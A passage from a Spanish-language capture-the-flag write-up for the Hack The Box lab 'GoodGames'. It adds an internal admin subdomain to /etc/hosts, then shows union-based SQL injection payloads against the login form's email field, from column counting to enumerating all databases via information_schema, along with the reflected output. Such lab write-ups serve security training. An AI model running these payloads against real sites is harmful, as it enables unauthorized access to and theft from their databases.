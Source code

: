 En la esquina superior derecha, se puede ver un panel de configuración, pero apunta a otro subdominio. Lo añado al ```/etc/hosts```

```null
http://internal-administration.goodgames.htb/
```

Una vez carga se ve así:

<img src="/writeups/assets/img/Goodgames-htb/6.png" alt="">

Vuelvo a la inyección SQL, para dumpear los datos, en total hay 4 columnas

```null
email=test@test.com' order by 4-- -&password=rubbx
```

Las selecciono

```null
email=test@test.com' union select 1,2,3,4-- -&password=rubbx
```

El 4 se ve reflejado en la respuesta

```null
<h2 class="h4">Welcome 4</h2>
```

Enumero todas las bases de datos

```null
email=test@test.com' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- -&password=rubbx
```
